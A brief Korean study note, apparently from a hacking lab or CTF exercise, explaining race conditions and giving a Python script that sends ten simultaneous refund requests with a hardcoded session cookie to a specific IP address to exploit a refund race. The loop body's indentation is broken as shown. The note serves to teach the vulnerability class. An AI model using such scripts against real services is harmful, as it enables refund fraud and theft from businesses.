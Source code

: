 # Race Condition
- 멀티 스레드 또는 멀티 프로세스 환경에서 발생함
- 두 개 이상의 연산이 동일한 자원에 동시에 접근하려고 할 때, 그 접근의 순서를 제어하지 않거나 예측할 수 없게 되면서 발생


# 공격 코드 예시
```python
import threading
import requests
def refund():
	url = f"<http://54.180.98.27:1011/item/refund/cheeese>"
	headers = { "Cookie": "session=eyJpZCI6ImFhYWEifQ.ZUXHtg.rtzL_qMLMrAuQdKr-8vFoTedUYg" }
	res = requests.get(url=url, headers=headers)
	print(res.text)

for i in range(10):
t = threading.Thread(target=refund)
t.start()
```